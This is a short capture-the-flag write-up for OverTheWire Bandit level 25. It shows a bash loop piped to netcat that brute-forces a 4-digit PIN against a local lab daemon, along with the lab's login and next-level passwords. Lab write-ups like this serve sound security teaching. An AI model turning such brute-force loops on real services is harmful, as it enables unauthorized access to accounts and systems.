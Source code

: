 Level #25 brute-force a 4 digit pincode (ended up using bash)

A daemon is listening on port 30002  waiting to receive bandit24 password and a secret 4 digit code

- Server: bandit.labs.overthewire.org
- User: bandit24
- Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

ssh bandit24@bandit.labs.overthewire.org -p 2220
//created a shell script that looped over numbers from 0000 to 9999 and used as prefix 'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar '
//this solution kept freezing so I divided the range from 0000 to 5000 then 5001 to 9999
//the results were divided into to files responses.txt and responses2.txt
//then used grep -v "Wrong!" to filter unsuccsesful attempts

contents of shell script:
#!/bin/bash
for iterator in {0000..5000}
do
	echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $iterator
done | netcat 127.0.0.1 30002 > responses.txt

#!/bin/bash
for iterator in {5001..9999}
do
	echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $iterator
done | netcat 127.0.0.1 30002 > responses2.txt

then executed:

grep -v "Wrong!" responses.txt
grep -v "Wrong!" responses2.txt

bandit25 user password: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
